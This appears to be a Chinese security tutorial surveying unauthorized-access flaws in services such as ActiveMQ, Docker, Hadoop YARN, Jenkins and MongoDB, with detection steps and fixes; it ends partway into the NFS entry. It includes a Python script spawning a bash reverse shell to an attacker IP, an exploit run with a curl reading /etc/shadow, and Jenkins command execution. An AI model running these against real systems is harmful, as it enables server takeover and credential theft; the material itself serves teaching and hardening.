前言
这篇文章主要收集一些常见的未授权访问漏洞。未授权访问漏洞可以理解为需要安全配置或权限认证的地址、授权页面存在缺陷导致其他用户可以直接访问从而引发重要权限可被操作、数据库或网站目录等敏感信息泄露。
0x01 未授权漏洞预览
Active MQ 未授权访问
Atlassian Crowd 未授权访问
CouchDB 未授权访问
Docker 未授权访问
Dubbo 未授权访问
Druid 未授权访问
Elasticsearch 未授权访问
FTP 未授权访问
Hadoop 未授权访问
JBoss 未授权访问
Jenkins 未授权访问
Jupyter Notebook 未授权访问
Kibana 未授权访问
Kubernetes Api Server 未授权访问
LDAP 未授权访问
MongoDB 未授权访问
Memcached 未授权访问
NFS 未授权访问
Rsync 未授权访问
Redis 未授权访问
RabbitMQ 未授权访问
Solr 未授权访问
Spring Boot Actuator 未授权访问
Spark 未授权访问
VNC 未授权访问
Weblogic 未授权访问
ZooKeeper 未授权访问
Zabbix 未授权访问
0x02 Active MQ 未授权访问
- 漏洞简介
ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。
2.漏洞检测
默认端口：8161
默认密码：admin/admin

3.漏洞修复
针对未授权访问，可修改conf/jetty.xml文件，bean id为securityConstraint下的authenticate修改值为true，重启服务即可。
针对弱口令，可修改conf/jetty.xml文件，bean id 为securityLoginService下的conf值获取用户properties，修改用户名密码，重启服务即可。
参考文章 https://www.ouyangxiaoze.com/2020/08/631.html
0x03 Atlassian Crowd 未授权访问
1.漏洞简介
Atlassian Crowd是一套基于Web的单点登录系统。该系统为多用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。
Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了pdkinstall开发插件，使其存在安全漏洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件，执行任意代码/命令，从而获得服务器权限。
2.漏洞检测
漏洞利用脚本github地址：https://github.com/jas502n/CVE-2019-11580
git clone https://github.com/jas502n/CVE-2019-11580
cd CVE-2019-11580/
python CVE-2019-11580.py http://192.168.18.138:8095
curl http://192.168.18.138:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
3.漏洞修复
设置访问/crowd/admin/uploadplugin.action的源ip。
升级最新版本(3.5.0以上)。
0x04 CouchDB 未授权访问
1.漏洞简介
Apache CouchDB 是一个开源数据库，默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。
在官方配置文档中对HTTP Server的配置有WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。
2.漏洞检测
使用vulhub搭建漏洞环境用于测试演示
cd /vulhub/couchdb/CVE-2017-12636
docker-compose up -d
未授权访问测试命令
curl 192.168.126.130:5984
curl 192.168.126.130:5984/_config

3.漏洞修复
指定CouchDB绑定的IP （需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。
注：修改后只有本机才能访问CouchDB。
设置访问密码（需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。
设置WWW-Authenticate，强制认证。
0x05 Docker 未授权访问
1.漏洞简介
该未授权访问漏洞是因为Docker API可以执行Docker命令，该接口是目的是取代Docker命令界面，通过URL操作Docker。
Docker API 未授权访问漏洞分析和利用
2.漏洞检测
使用vulhub搭建漏洞环境用于测试演示
cd /vulhub/docker/unauthorized-rce
docker-compose build
docker-compose up -d
直接输入地址 http://your-ip:2375/version ；若能访问，证明存在未授权访问漏洞。

3.漏洞修复
对2375端口做网络访问控制，如ACL控制，或者访问规则；
修改docker swarm的认证方式，使用TLS认证；
0x06 Dubbo 未授权访问
1.漏洞简介
Dubbo是阿里巴巴公司开源的一个高性能优秀的 服务框架，使得应用可通过高性能的 RPC 实现服务的输 出和输入功能，可以和 Spring框架无缝集成。dubbo 因配置不当导致未授权访问漏洞。
2.漏洞检测
连接进入dubbo 服务，进行操作
telent IP port


3.漏洞修复
配置dubbo认证；
设置防火墙策略，限定IP访问；
0x07 Druid 未授权访问
1.漏洞简介
Druid是阿里巴巴数据库出品的，为监控而生的数据库连接池，并且Druid提供的监控功能，监控SQL的执行时间、监控Web URI的请求、Session监控，首先Druid是不存在什么漏洞的。但当开发者配置不当时就可能造成未授权访问。
2.漏洞检测
直接在网站的url中后加上：
/druid/index.html
/druid/websession.html
/druid/datasource.html
/druid/sql.html
/druid/spring.html
如果可以无需登录，即可登录到Druid监控界面，则说明该网站存在Druid未授权访问漏洞

3.漏洞修复
配置访问账号密码；
禁止对外网开放访问；
0x08 Elasticsearch 未授权访问
1.漏洞简介
Elasticsearch是一款java编写的企业级搜索服务。越来越多的公司使用ELK作为日志分析，启动此服务默认会开放9200端口或者9300端口，可被非法操作数据。
2.漏洞检测
未授权访问测试命令
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search #查看数据库敏感信息
http://localhost:9200/_nodes #查看节点数据

3.漏洞修复
访问控制策略，限制IP访问，绑定固定IP；
在config/elasticsearch.yml中为9200端口设置认证等；
0x09 FTP 未授权访问
1.漏洞简介
FTP 弱口令或匿名登录漏洞，一般指使用 FTP 的用户启用了匿名登录功能，或系统口令的长度太短、复杂度不够、仅包含数字、或仅包含字母等，容易被黑客攻击，发生恶意文件上传或更严重的入侵行为。
2.漏洞检测
直接访问ftp路径：ftp://ip:port/

3.漏洞修复
禁止匿名登录；
配置强密码，密码长度建议八位以上，且密码应包括大小写字母、特殊字符、数字混合体；
0x10 HadoopYARN 未授权访问
1.漏洞简介
Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的MapReduce算法进行分布式处理，Yarn是Hadoop集群的资源管理系统。
此次事件主要因HadoopYARN资源管理系统配置不当，导致可以未经授权进行访问，从而被攻击者恶意利用。攻击者无需认证即可通过RESTAPI部署任务来执行任意指令，最终完全控制服务器。
2.漏洞检测
使用vulhub搭建漏洞演示环境
cd /vulhub/hadoop/unauthorized-yarn
docker-compose up -d
环境启动后，没有配置身份认证，可以未授权访问到Hadoop YARN ResourceManager WebUI页面
http://192.168.126.130:8088/
http://192.168.126.130:8088/cluster

利用该漏洞，可以进一步getshell
脚本源码如下：rce.py
#!/usr/bin/env python
import requests
target = ‘http://192.168.126.130:8088/' # 设置目标主机的ip地址
lhost = ‘192.168.126.128’ # 设置你攻击主机的监听ip地址，并且监听端口为9999
url = target + ‘ws/v1/cluster/apps/new-application’
resp = requests.post(url)
app_id = resp.json()[‘application-id’]
url = target + ‘ws/v1/cluster/apps’
data = {
‘application-id’: app_id,
‘application-name’: ‘get-shell’,
‘am-container-spec’: {
‘commands’: {
‘command’: ‘/bin/bash -i >& /dev/tcp/%s/9999 0>&1’ % lhost,
},
},
‘application-type’: ‘YARN’,
}
requests.post(url, json=data)
3.漏洞修复
升级Hadoop到2.x版本以上，并启用Kerberos认证功能，禁止匿名访问;
设置“安全组”访问控制策略，将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访问包括 50070 以及 WebUI 等相关端口；
如无必要，关闭 Hadoop Web 管理页面；
0x11 JBoss 未授权访问
1.漏洞简介
漏洞简述JBOSS 企业应用平台EAP是 J2EE 应用的中间件平台。默认情况下访问 http://ip:8080/jmx-console 就可以浏览 Jboss 的部署管理的信息不需要输入用户名和密码可以直接部署上传木马有安全隐患。
2.漏洞检测
直接访问 http://ip:port/ 看是否能进入 jmx-console 和 web-console 页面
http://ip:8080/
http://ip:8080/jmx-console/
http://ip:8080/jbossws/

3.漏洞修复
添加 JMX 控制页面身份认证；
进行JMX Console 安全配置；
关闭jmx-console和web-console
0x12 Jenkins 未授权访问
1.漏洞简介
默认情况下Jenkins面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等进脚本执行界面从而获取服务器权限。
2.漏洞检测
直接通过url输入以下地址，若能访问，证明存在未授权访问漏洞。
http://
http://

未授权访问 http://
命令格式
println “whoami”.execute().text

3.漏洞修复
对后台控制页面做登录验证限制；
升级Jenkins至新版本；
禁止把Jenkins直接暴露在公网；
0x13 Jupyter Notebook 未授权访问
1.漏洞简介
Jupyter Notebook（此前被称为 IPython notebook）是一个交互式笔记本，支持运行 40 多种编程语言。如果管理员未为Jupyter Notebook配置密码，将导致未授权访问漏洞，游客可在其中创建一个console并执行任意Python代码和命令。
2.漏洞检测
使用vulhub搭建漏洞演示环境
cd /vulhub/jupyter/notebook-rce
docker-compose up -d
运行后，访问http://your-ip:8888将看到Jupyter Notebook的Web管理界面，并没有要求填写密码。

选择 new -> terminal 即可创建一个控制台：

直接执行任意命令：

3.漏洞修复
开启身份验证，防止未经授权用户访问；
访问控制策略，限制IP访问，绑定固定IP；
0x14 Kibana 未授权访问
1.漏洞简介
Kibana如果允许外网访问，没有做安全的登录认证，也会被外部随意访问查看所有的数据，造成少数据泄露。
2.漏洞检测
直接访问kibana的页面
http://192.168.126.130:5601/
https://192.168.126.130/app/kibana#
http://192.168.126.130:5601/app/kibana#/
无需账号密码可以登录进入界面

3.漏洞修复
设置kibana监听本地地址，并设置ElasticSearch登录的账号和密码；
设置防火墙策略，限定IP访问服务；
0x15 Kubernetes Api Server 未授权
1.漏洞简介
Kubernetes 的服务在正常启动后会开启两个端口：Localhost Port （默认8080）、Secure Port （默认6443）。这两个端口都是提供 Api Server 服务的，一个可以直接通过 Web 访问，另一个可以通过 kubectl 客户端进行调用。如果运维人员没有合理的配置验证和权限，那么攻击者就可以通过这两个接口去获取容器的权限。
2.漏洞检测
使用nmap寻找相关的端口和服务，直接访问脆弱的服务
端口：8080 http://10.10.4.89:8080/

端口：8080： api dashboard：http://10.10.4.89:8080/ui

端口：10250端口是kubelet API的HTTPS端口，通过路径/pods获取环境变量、运行的容器信息、命名空间等信息

3.漏洞修复
进行授权认证；
使用Service Account令牌；
设置防火墙策略，限定IP访问服务；
0x16 LDAP 未授权访问
1.漏洞简介
LDAP中文全称为：轻型目录访问协议（Lightweight Directory Access Protocol），默认使用389， LDAP 底层一般使用 TCP 或 UDP 作为传输协议。目录服务是一个特殊的数据库，是一种以树状结构的目录数据库为基础。未对LDAP的访问进行密码验证，导致未授权访问。
2.漏洞检测
使用nmap寻找到相关的LDAP服务器，可以使用ldapbrowser直接连接，获取目录内容。

3.漏洞修复
修改ldap的acl，禁止匿名访问。
根据业务设置ldap访问白名单或黑名单
0x17 MongoDB 未授权访问
1.漏洞简介
开启MongoDB服务时不添加任何参数时,默认是没有权限验证的,登录的用户可以通过默认端口无需密码对数据库任意操作（增、删、改、查高危动作）而且可以远程访问数据库。
造成未授权访问的根本原因就在于启动 Mongodb 的时候未设置 –auth 也很少会有人会给数据库添加上账号密码（默认空口令），使用默认空口令这将导致恶意攻击者无需进行账号认证就可以登陆到数据服务器。
2.漏洞检测
安装mongodb，然后连接到服务。
yum install mongodb
mongo –host 10.2.20.34 –port 27017

3.漏洞修复
限制绑定IP，启动时加入参数–bind_ip 127.0.0.1或在/etc/mongodb.conf文件中添加以下内容：bind_ip = 127.0.0.1；
在admin.system.users中添加用户，启动认证；
设置防火墙策略，限定 IP 访问服务；
禁用HTTP和REST端口，修改配置文件或在启动的时候选择参数nohttpinterface=false
0x18 Memcached 未授权访问
1.漏洞简介
Memcached 端口对外开放并且没有配置认证选项，未授权用户可直接获取数据库中所有信息，造成严重的信息泄露。
2.漏洞检测
无需用户名密码，可以直接连接memcache 服务的11211端口
telnet 10.10.4.89 11211
或者
nc -vv 11211
使用了 stats 命令来输出 Memcached 服务信息
3.漏洞修复
修改绑定的IP、端口和指定访问者IP；
设置防火墙策略；
禁止暴露在公网；
配置memcached监听本地回环地址 127.0.0.1；
0x19 NFS 未授权访问
1.漏洞简介
Network File System(NFS)，是由SUN公司研制的UNIX表示层协议(pressentation layer protocol)，能使使用者访问网络上别处的文件就像在使用自己的计算机一样。服务器在启用nfs服务以后，由于nfs服务未限制对外访问，导致共享目录泄漏。
2.漏洞检测
